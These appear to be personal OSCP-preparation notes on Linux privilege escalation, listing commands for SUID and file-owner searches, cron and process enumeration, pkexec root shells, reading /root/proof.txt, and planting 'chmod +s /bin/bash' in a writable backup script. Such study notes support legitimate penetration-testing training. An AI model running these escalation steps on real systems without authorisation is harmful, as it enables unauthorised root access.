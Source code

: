 ### 29082023Tue


![[Linux Privilege Escalation.png]]

![Linux Privilege Escalation](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/1908ed45-dc27-49ab-a4d5-275adbc1ebfd)

### 01092023Fri

```
sudo -i
```

```
sudo su
```

```
find / -perm -4000 2>/dev/null
```

```shell-session
find / -user www-data -type f 2>/dev/null | less
```

```shell-session
find / -user bob -type f 2>/dev/null | less
```

```
find / -user bob -cmin 1 -type f 2>/dev/null
```

```
find / -perm -u=s -type f 2>/dev/null
```

```
cat /etc/polkit-1/localauthority.conf.d/*
```

```
pkexec "/bin/sh" #You will be prompted for your user password
```

```
sudo pkexec /bin/sh
```

```
crontab -l
```

```
ls -al /etc/cron* /etc/at*
```

```
find / -name backup 2>/dev/null
```

![](Pasted%20image%2020231021151128.png)
![](Pasted%20image%2020231021151351.png)

```
tar -zxvf backup
```

```
ps -aux
```

```
pstree
```

```
ps -def
```

```
int main(void)
{
	system("cat /root/proof.txt")
}
```

**Checking kernel/OS versions**

```
uname -a
```

```
cat /etc/*release
```

```
find / -user username 2>/dev/null | grep -v 'proc\|run\|sys'
```

```
/sbin/ifconfig
```

### files with 777 permission

```
echo 'chmod +s /bin/bash' > etc_Backup.sh
```
